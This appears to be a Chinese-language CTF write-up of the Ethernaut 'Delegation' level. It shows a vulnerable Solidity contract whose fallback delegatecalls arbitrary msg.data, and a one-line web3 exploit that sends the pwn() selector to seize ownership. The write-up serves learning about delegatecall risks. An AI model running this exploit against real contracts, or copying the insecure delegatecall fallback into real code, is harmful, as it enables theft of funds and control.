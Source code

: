 hint:

```
The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
Fallback methods
Method ids
```



solidity：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```



这里我的理解：delegatecall就类似Java的invoke

所以我们msg.data传的是 pwn()的bytes，然后参考wp的进行hash后取。

```js
await contract.sendTransaction({data:web3.utils.sha3("pwn()").slice(0,10)});
```



触发fallback后调用 pwn即可own这个instance。

![image-20250301220806025](./Delegate/images/image-20250301220806025.png)



Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.



可以好好看看这篇，从源码角度分析，收获颇丰。